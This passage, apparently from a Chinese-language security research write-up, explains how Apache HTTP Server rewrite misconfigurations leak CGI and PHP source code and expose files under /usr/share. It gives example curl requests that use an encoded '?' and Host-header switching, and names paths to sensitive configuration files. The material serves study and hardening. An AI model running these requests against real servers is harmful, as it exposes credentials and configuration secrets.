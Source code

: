 ##### 1. 洩漏 CGI 原始碼

CGI 程式碼當中可能包含一些機密敏感資料，包含資料庫的帳號密碼等，CGI 程式碼執行時，是透過 `ScriptAlias` 與原始的目錄綁定，若使用絕對路徑請求，就能看到其原始碼。

```bash
$ curl http://server/cgi-bin/download.cgi
# the processed result from download.cgi

$ curl http://server/html/usr/lib/cgi-bin/download.cgi%3F
# #!/usr/bin/perl
# use CGI;
# ...
# # the source code of download.cgi
```

##### 2. 洩漏 PHP 原始碼

若只針對特定目錄或虛擬主機套用 PHP 環境，則可透過未啟用的虛擬主機存取 PHP 原始碼。

例如：`www.local` 及 `static.local` 兩台虛擬主機在同一台伺服器上，其中 `www.local` 負責執行 PHP，`static.local` 則只負責回應靜態的資源。因此透過以下範例可透過修改 `Host` 表頭取得 `config.php` 的原始碼。

```bash
$ curl http://www.local/config.php
# the processed result (empty) from config.php

$ curl http://www.local/var/www.local/config.php%3F -H "Host: static.local"
# the source code of config.php
```

#### （二）存取任意檔案

透過不安全的 `RewriteRule` 雖然能夠讀取任意的檔案，但同時在 Apache HTTP Server 的設定檔模板中，預設禁止了根目錄的存取：

**Path:** [httpd/docs/conf/httpd.conf.in#L115](https://github.com/apache/httpd/blob/trunk/docs/conf/httpd.conf.in#L115)

```apacheconf
<Directory />
    AllowOverride None
    Require all denied
</Directory>
```

然而，在 Debian 架構的作業系統中（例如：Ubuntu），預設允許 `/usr/share`。雖然無法直接存取到 `/ets/passwd`，但還是增加了利用的機會。

##### 1. 資訊洩漏

如果 Apache HTTP Server 安裝了 `websocketd` 服務，預設會在 `/usr/share/doc/websocketd/examples/php/` 中，放一個範例 PHP 檔 `dump-env.php`，如果伺服器為 PHP 環境，就能夠洩漏敏感的環境變數。

如果伺服器同時安裝 Nginx 或 Jetty，因為這些服務預設的 Web Root 在 `/usr/share` 下，因此就能夠取得這些服務的敏感資訊，例如 Jetty 上的 `web.xml` 設定等：

* `/usr/share/nginx/html/`
* `/usr/share/jetty9/etc/`
* `/usr/share/jetty9/webapps/`
